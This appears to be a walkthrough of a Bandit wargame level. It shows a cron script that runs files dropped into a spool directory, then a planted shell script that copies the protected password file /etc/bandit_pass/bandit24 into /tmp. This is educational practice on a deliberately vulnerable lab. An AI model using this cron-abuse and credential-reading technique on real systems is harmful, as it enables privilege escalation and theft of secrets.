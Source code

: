 # Level 24

> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

This is the script being executed as bandit24:
```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
``` 

Basically what this script does is look for any scripts located in `/var/spool/bandit24/` and, if the user is `bandit23`, executes them. I went to a temporary directory and wrote this
```
bandit23@bandit:/tmp/lsdkfaj$ touch savepass.sh
bandit23@bandit:/tmp/lsdkfaj$ chmod +x savepass.sh 
bandit23@bandit:/tmp/lsdkfaj$ vim savepass.sh
```
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/lsdkfaj/pass
```

That script should be enough. The only thing missing would be to create the `pass` file and allow bandit24 to write on it
```
bandit23@bandit:/tmp/lsdkfaj$ touch pass
bandit23@bandit:/tmp/lsdkfaj$ chmod +w pass
```

Copy `savepass.sh` to `/var/spool/bandit24/` and wait for the password to be sent to you.
